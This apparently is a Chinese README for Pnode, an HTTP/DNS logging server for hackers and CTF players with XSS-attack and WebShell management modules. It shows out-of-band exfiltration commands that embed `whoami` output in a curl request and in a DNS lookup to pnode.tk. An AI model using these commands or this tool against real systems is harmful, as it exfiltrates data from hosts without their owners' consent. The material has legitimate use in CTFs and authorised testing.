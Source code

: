 ```
   ___                 _      
  / _ \_ __   ___   __| | ___ 
 / /_)/ '_ \ / _ \ / _` |/ _ \
/ ___/| | | | (_) | (_| |  __/
\/    |_| |_|\___/ \__,_|\___|
                              
```



### 项目名称

Pnode

### 项目描述

前端使用Boostrap框架，后端使用thinkphp5框架开发

适用于hacker&CTFer

可以满足日常的需求，并且可以直接在WEB端管理&编辑一些文件用于远程加载

### 功能介绍

* HTTP log
* DNS log
* XSS攻击管理模块
* WebShell等文件管理模块

```
curl http://127.0.0.1:10082/public/?c=`whoami`
```



![](https://ws4.sinaimg.cn/large/006tNc79ly1fzbpadxielj31ik0m6ac2.jpg)



```
ping -c 2 `whoami`.pnode.tk
```



![](https://ws1.sinaimg.cn/large/006tNc79ly1fzb0a7st2ej31fc0dmdi0.jpg)

![](https://ws1.sinaimg.cn/large/006tNc79ly1fzbr5mp56uj31fb0u0afo.jpg)

![](https://ws2.sinaimg.cn/large/006tNc79ly1fzbr6j7i0zj31r00su41a.jpg)





### 环境部署

LAMP环境即可

修改database.php中数据库账号密码

自行修改默认登陆密码(md5后的)

```
update users set password=md5('admin') where username='admin'
```

如果需要DNS log功能,首先`https://my.freenom.com/`注册一个账号,然后免费申请一个域名

![](https://ws3.sinaimg.cn/large/006tNc79ly1fzb0n0s9k9j320g0rygu7.jpg)

![](https://ws4.sinaimg.cn/large/006tNc79ly1fzb0otdeumj31se0o2n0g.jpg)

然后将你的vps的外网ip填入

然后一直继续即可

然后将dns.py放入到`/tmp`目录下

修改dns.py为你的域名和你的vps ip,然后手动启动dns服务

```
python /tmp/dns.py &
```

在一个小时左右将会解析成功,然后就可以接受到log。

